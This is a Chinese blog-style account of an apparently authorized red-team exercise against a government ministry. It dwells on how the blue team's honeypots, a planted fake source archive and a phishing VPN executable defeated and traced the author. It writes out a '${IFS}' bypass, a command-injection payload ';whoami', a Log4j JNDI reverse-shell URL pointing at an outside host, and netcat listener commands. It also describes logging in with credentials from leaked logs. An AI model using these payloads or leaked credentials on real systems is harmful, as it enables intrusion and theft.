








这周接到上面的通知去给某政府单位进行资产梳理和渗透测试，这个单位的安服非常有实力，曾经成功抵御了某带编号的境外apt组织的攻击并给出溯源报告。一开始领导让我去搞这个项目的时候我是很抵触的，毕竟aptxx都打不穿的单位你让我去是不是有点太幽默。转念一想，有机会见识一下顶尖蓝队和企业安全策略也没啥不好的。我就不信邪了看看这怎么个事——当然最后结果也是不出所料的被反清得裤衩都不剩了。以下是整个测试过程的一些印象比较深刻的片段。本文发布已经过目标单位的授权，涉及到的信息图片等均厚码处理，文章内容仅供技术交流使用

1.前期按部就班做了一些针对性的资产梳理和收集工作，备案反查，子域，ip网段资产，js采集。很快就在某子域下发现一个?str=传参的命令执行漏洞，用最简单的${IFS}就可以绕过过滤执行命令，并且有回显。这个蜜罐还是很明显的，首先洞太突兀了，一级子域下边留这么一个脑残的命令执行到现在还不修我是不信的。第二个，这个str参数在这里没有任何意义，正常用户点击这个web地址的时候用不到，他也实现不了任何业务功能。最后f12看一下页面加载了很多第三方js文件，这也是罐子的一大特征，遂马上跑路，没有中招 

2.利用酷酷习题大法，在tg泄露的几百万行日志.txt中找到了此部委某处资产的账号密码，成功登录

看起来系统似乎还是挺老的，没有waf，先尝试寻找sql注入，挨个点击可能和数据库交互的页面功能区域，把burp里请求流量全部保存联动sqlmap -r risk=5 level=3开跑，无果，尝试手注依然无果。想要进行后台文件上传，然后发现根本就没有上传点，屋檐了  
继续测试，找到鉴权的api接口，在/api/v2/auth/checkUser/usrid.php 这里，如图，想要垂直越权一下获取管理员权限

猜测管理员用户名就是admin，passwordComplex参数只要输对了验证码就是0，不用管。temp和最重要的加密的那个_Monster到底是啥玩意，(我真没见过谁家鉴权参数叫这个名字的)，怎么生成的，实在想不明白。想翻阅js看看在前端有无相关的参数的接口，加密了，本人js逆向就是一坨，就在想放弃找越权的时候网站出现了卡顿，这个代码也挺神经的，如果src获取图床url的时候没有成功，会在返回里显示“出现xxx故障错误代码xxx请联系xxxx(软件开发商联系方式)”，6。然后交给社工哥顺利的找到了此套软件的源码

审计鉴权代码发现其实是用一个默认密钥+时间戳+用户名的方式生成了那个_Monster参数，temp参数和越权没关系，系统管理员和普通用户都是一样的，成功通过接口修改_Monster和id的值以admin身份登录入系统

管理员后台的功能就比较多了，有上传点，而且谢天谢地没有任何对文件后缀的检验，就是上传过后不会回显路径。这个问题不大因为源码都搞到手了，看源码$uploadPath就行。然后就是XG拟态生成器生成免杀webshell上传连接后接管服务器，哥斯拉插件绕过disable_fouction丝滑小连招

后续通过shell上线c2的时候渗透内网的内容因保密需要无法透露。这个资产打到的只是该部委的一处边缘网段，内网机器虽然挺多但是并非核心生产环境，也没有敏感资料。然而这基本上就是我的全部成绩了，后续就是蓝队高手四擒年某的故事  
  
3.扫到主域名下某路径back.zip内容，一打开看居然是网站源码，各个路径都能对上。审计源码内容，这个info.php的漏洞点代码如下

有个filter_var()的函数进行过滤，白名单预定义了用户操作，FILTER_SANITIZE_STRING是 PHP 中的一个过滤器，清洗用户字符串输入的 HTML 标签和特殊字符来防止xss，但是这俩过滤都是平时ctf里绕过烂了的东西，/info.php?action=list;whoami 直接命令执行。当时我愣了一下，这个据说抵御过aptxx组织攻击的单位这么简单就搞到主站rce了？转念一想也不是不可能，apt组织写各种免杀和加载器厉害，打突破都是靠钓鱼，我字典好正好扫到.zip直接白盒秒了，遂传参狠狠的写入shell，疑似有宝塔文件锁一类的东西文件无法落地，就执行命令nc反弹了一下到我vps上  

后来我才知道这堆byd安服大玉想象力之丰富，那个back.zip就是他们故意放到服务器上的，压缩包里info.php的内容也是故意这么写的，实际上真正的info.php根本不长这样，传参管道符或者分号的时候后端跟进的代码不是shell_exec()，而是一个他们自研的蜜罐接口，就看哪个冤种发送action=list;，直接标红ip然后态感设备一顿响，我后续执行的所有操作几个值班的蓝队哥看得一清二楚。nc反弹的时候vps地址也漏了。溯到ip一波反清各类c2框架的端口，cs的50050和viper的60000。正好我是超级懒人，接收反弹shell，漏扫，cs和viper和daybreak和灯塔都部署在这台机器上面，而且全都是弱口令，蓝队哥用day或者爆破，拿到了我viper的账号密码，并且不知道通过什么手段经过viper的后台直接拿到了我服务器的ssh账号密码？我ssh连服务器的时候没挂代理，人家在服务器上翻一下登录日志，酒店公网ip遂暴露 

4.具体过程无法透露，通过某设备0day拿到生产环境数据库账号密码，刚刚连上就触发了数据库日志审计秒掐端口禁止外连，最后的危害就是截了张图大概知道了他有哪几个表，数据一点都没能泄露，没脾气。只能安慰自己拔线拔得这么快起码证明没踩到罐子

 5.整理资产看到某公网oa系统，正好前段时间审了这个oa的sql注入0day，发送poc

6.扫到了公网上部署的nacos系统，并且工具检测出来有Hessian反序列化，拿🦶想都知道这种单位不可能傻到公网上放nacos还留着nday不修，一眼罐子，于是没有深入
测试结束过后问了一句，然后人家说这个还真特么不是罐子，只是资产归属不属于他们单位负责，气死我了

7.接下来连续的几天都一点成果没有，对着搜集到的一堆资产扫描器猛扫，连个debug的信息泄露都扫不到。挂burp手动测试功能点，测了半天也没有，源码泄露也找不到，那些个cms也都是自研的或者闭源的，手上无day可打，黑盒真的太难了。转变思路重新收集了一下资产信息拓展攻击面。终于找到了某系统存在Log4j漏洞
使用工具JNDI-Injection-Exploit，直接
`java -jar JNDIExploit.jar -l 8888 -p 6666 -i 本机ip` 

然后`nc -lvvp 10001`开启监听  浏览器打开url访问
http://xxxx.xxxx/solr/admin/cores?action=${jndi:ldap://xxxxx:8888/Basic/ReverseShell/xxxxxx/10001
但是vps上一直收不到shell，有补丁吗？查了一下官方commit里对于Log4j漏洞的修改意见，一个是限制LDAP和RMI的访问类，还有就是
https://github.com/apache/logging-log4j2/commit/d82b47c6fae9c15fcb183170394d5f1a01ac02d3
里边，对于lookup方法的修改，你想要new URI(name)处报错但是name又得被jndi正常识别，这里就只能用marshalsec方法反弹shell了，因为marshalsec构造LADP服务的时候不走那个handle URL的语句块，不会导致解析错误。

不过这种方法复现的话挺麻烦的，要自己写一个Exploit.class放到web服务上，具体步骤看
https://mp.weixin.qq.com/s/4cvooT4tfQhjL7t4GFzYFQ
，这里因为篇幅原因就不多说

拿到shell，机器出网能直接wget下东西，无敌免杀bypass杀软顺利上线cs。这个内网比上文提到的那个重要多了，此时感觉自己非常的黑客，开始幻想自己单兵apt打穿某某部委，开心得不行

内网部分还是因为保密原因不能提，横向过程中阻力挺大，捣鼓半天一台新的机器都没横向成功。好不容易跌跌撞撞拿到了一台windows的票据，cs上线文件管理看看desktop是咋回事

在桌面文件夹发现了惊人的Powervpn.exe以及使用手册.pdf，笑嘻了。由于是exe，下载下来先看df报不报毒，df和卡巴都不报毒，丢沙箱看一下，有异常行为，但多半是误报(云沙箱经常犯病) ，感觉文件安全没问题，遂大胆运行  
后来知道这堆蓝队哥居然在内网每台办公机器的桌面都放了钓鱼vpn.exe，无敌了，他也不怕自家员工给他一顿点。并且免杀df火绒360晶核卡巴，甚至反虚拟机，vm运行弹窗提示必须物理机运行(我这种莽夫直接本机右键了，人家白多花了这么个心思)。你自己边界突破进去横向拿到的权限，在这台机器上下的文件，杀软也不报毒，这谁特么能想到是个马子。于是我那台破笔记本也被蓝队控制，然后电脑桌面文件夹里就有简历.doc

总结：花了差不多十天的渗透时间，就只拿下该部委webshell两个，其中一个为gov域名；边缘办公系统内网机器xx台，数据库半个(连上没三分钟就应急了，一条数据没看到，所以算半个)。然后被溯源到攻击服务器一台，通过反制手段拿到部署在上面的viper和cs的账号密码，以及服务器ssh账号密码。被钓鱼导致用于攻击的笔记本被蓝队上线。暴露了酒店公网ip地址，人家只是尊重我的隐私没用蓝队神秘小工具翻我设备而已，不然消费记录结合公网ip地理位置画像一下就知道我酒店门牌号是哪个了。通过笔记本桌面文件里的简历.doc获得了我的姓名手机号qq号和大头照，使用纸飞机酷酷bot轻松反查到身份证号。最后捕获到没利用成功的某oa前台sql注入一个。一句话概括，东西没打到几个底裤漏完，算了一下rating估计在0.4到0.5之间，大败而归

最后交流的时候和人家聊了一下才知道这几个蓝队哥里边有之前大厂实验室的渗透岗，意料之中，只有做过攻击队的老油条才能想出往back.zip里边塞假源码骗人进罐子这样的狠活。一方面人家太懂红队的心理了，完美预判了常见渗透流程中的每一件事情，非常合理且巧妙的在这些过程中给你挖坑。另一方面硬实力也没得说，那个监控特定参数并且能够高交互回显的蜜罐接口是人家自研的产品，自己手搓代码写出来的；绕过各路杀软的钓鱼exe也是人家自己做的免杀(今六月份的做的到现在依然能够bypass各大杀软)，以及通过viper后台拿到服务器ssh权限，这个我至今不知道他们是咋做到的。国护的时候我也拆过那些四蹲五蹲的黑店靶标，都是还没毕业的大学生，技能也只有很被动的封c段加拔线，被打穿了就在裁判那里嘴遁机关枪死不承认。但是这次某部委原厂的安全团队真是打得我没脾气，人家确实是把蓝队和企业安全这块玩明白了。现在网安方面很多文章以及研究都把重点放在了攻击的各种姿势上，往往忽略了防御其实也是一门艺术，能整出很多花样的，不仅仅只有刻板印象里龟缩起来的各种封。这次演练完了也是老老实实认识到了和行业内顶尖高手的差距，之前娱乐圈炸鱼那是心高气傲，现在发现到了高手过招的这个层次自己被别人当鱼炸了，还是得继续多看文章多学习
